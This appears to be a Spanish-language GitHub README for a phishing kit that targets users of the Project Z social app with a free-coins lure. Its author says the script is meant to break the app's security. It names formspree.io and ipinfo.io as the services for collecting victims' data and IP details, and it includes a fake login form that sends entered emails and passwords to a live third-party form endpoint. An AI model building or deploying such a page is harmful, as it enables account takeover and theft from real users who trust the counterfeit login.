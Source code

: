 # phishing-Projz.com
Autor : BSZ - BlackStrZ

# phising - BSZ / Proyecto Zcoins free

El Proyecto Z, también conocido como la aplicación Z, es tu destino para conocer a tus amigos del metaverso, mejores amigos, almas gemelas y jugadores de rol. También es una comunidad global de personas que buscan diversión y dar rienda suelta a su creatividad, y autoexpresión.

Este scrip esta echo para penetrar la seguridad de una app link de la app : https://www.projz.com/

## utilizaremos 2 apis a qui :
api formularios free : https://formspree.io/
api envio de datos ip : https://ipinfo.io/

como conectar el api de formulario :
 
<form
  action="https://formspree.io/f/myyrjegg"
  method="POST"
>
  <label> 
    <input type="email" name="email" class="custom-input" placeholder="Email">
  </label>
  <label>
   <input type="password" name="password" id="passwordInput" class="custom-input" placeholder="Contraseña">  
  </label>

<button type="submit" class="custom-button"><h2>Iniciar Sesión</h2></button>
</form>
